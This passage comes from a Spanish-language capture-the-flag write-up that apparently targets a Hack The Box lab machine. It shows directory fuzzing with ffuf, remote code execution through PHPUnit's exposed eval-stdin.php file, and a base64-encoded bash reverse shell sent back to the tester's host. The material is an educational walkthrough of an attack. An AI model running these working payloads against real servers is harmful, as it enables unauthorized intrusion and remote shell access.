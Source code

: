 ```
$ ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://store.djewelry.htb/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://store.djewelry.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 233ms]
css                     [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 228ms]
js                      [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 228ms]
vendor                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 229ms]
fonts                   [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 228ms]
```

Al hacer el fuzzing vemos que nos reportó el directorio ```vendor```, en el cual se suelen guardar todas las librerías creadas por terceros, dentro de este directorio hay una carpeta llama ```phpunit``` la cual tiene un archivo que es el ```eval-stdin.php``` y es vulnerable a un ```Remote Code Execution```.

```
$ curl -s -X POST 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("whoami");'
www-data
```

# Reverse Shell
Como tenemos ejecución remota de comandos, vamos a mandarnos una reverse shell, por lo tanto, nos pondremos en escucha con netcat y tramitaremos la siguiente petición.

```
$ echo -n 'bash -i >& /dev/tcp/10.10.14.3/6969 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzY5NjkgMD4mMQ==
$ curl 'http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php' -d '<?php system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzY5NjkgMD4mMQ== | base64 -d | bash");'
```
